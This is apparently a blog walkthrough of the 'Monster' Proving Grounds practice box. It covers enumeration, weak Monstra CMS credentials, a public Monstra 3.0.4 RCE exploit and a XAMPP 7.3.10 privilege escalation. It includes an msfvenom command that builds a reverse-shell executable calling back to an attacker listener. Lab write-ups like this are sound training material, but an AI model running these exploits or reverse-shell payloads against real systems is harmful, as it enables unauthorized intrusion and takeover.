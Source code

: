 ```yaml
---
title: Monster
date: 2025-08-16
categories: [pg-practice]
tags: [walkthrough, Windows, weak-creds, Monstra-3.0.4, XAMPP-public-exploit-privesc] 
image: monster.jpg
media_subpath: /assets/img/posts/2025-08-16-monster/
---
```


# Introduction
In this box, I discovered an HTTP service running on port 80 and performed enumeration using Gobuster and manual inspection. This revealed a Monstra 3.0.4 CMS instance, which I accessed by exploiting weak application credentials. By chaining this with a publicly known RCE vulnerability in Monstra, I obtained an initial shell on the system.

Further inspection showed that the server was running a vulnerable version of XAMPP 7.3.10. I leveraged this vulnerability to escalate my privileges, ultimately gaining an administrator shell.

# Enumeration

### Host

**192.168.223.180**

## Nmap

### Fast Scan

```bash
 sudo nmap ip
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F ip -oN udp-scan
```

### Full Port Scan

```bash
sudo nmap -sV -sC -p- ip -Pn -n -v --open  -oN full-scan
```

## Services

### Port 135 (MSRPC)

```bash
rpcclient -U'%' ip
```

**NT_STATUS_ACCESS_DENIED**

### Port 139/445 (SMB)

```bash
smbclient -L //ip/ -N
```

**NT_STATUS_ACCESS_DENIED**

### Port 3389

## Web

### Port 80

```bash
gobuster dir -u http://ip:40080/ -w /usr/share/wordlists/dirb/common.txt -t 42 -x pdf,txt,config -b 404,403,400
```

![image.png](image%201.png)

I have found `blog` directory and navigating there I see it goes to `monster.pg` domain so I will add it to `/etc/hosts` file.

### Port 443

## Exploitation

Navigating to `blog` directory I see the version of application used:

![image.png](image%202.png)

I found the following [exploit](https://www.exploit-db.com/exploits/52038) regarding it:


But I need credentials to use this exploit, so I tried default ones `admin:admin`,`mike:mike`, and ones tied to this case `admin:wazowski`, and the last one actually worked.

![image.png](image%203.png)

After making some indentation and syntax fixes in the script I see it worked:

```bash
python3 52038.py http://monster.pg/blog admin wazowski
```

![image.png](image%204.png)

![image.png](image%205.png)

Let’s get a reverse PowerShell shell, I will take i from the following website:

![image.png](image%206.png)

![image.png](image%207.png)

Now I have a shell:

![image.png](image%208.png)

## Privilege Escalation

I checked user privileges, groups, vulnerable services and installed applications, I found that `XAMPP` version is 7.3.10 from `properties.ini` under `XAMPP` folder.

![image.png](image%209.png)

I found the following [exploit](https://www.exploit-db.com/exploits/50337) for it:

![image.png](image%2010.png)

It will be our executable in XAMPP Control Panel in Editor field.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.176 LPORT=4343 -f exe -o shell4343.exe
```

![image.png](image%2011.png)

After a bit waiting I got a connection:

![image.png](image%2012.png)
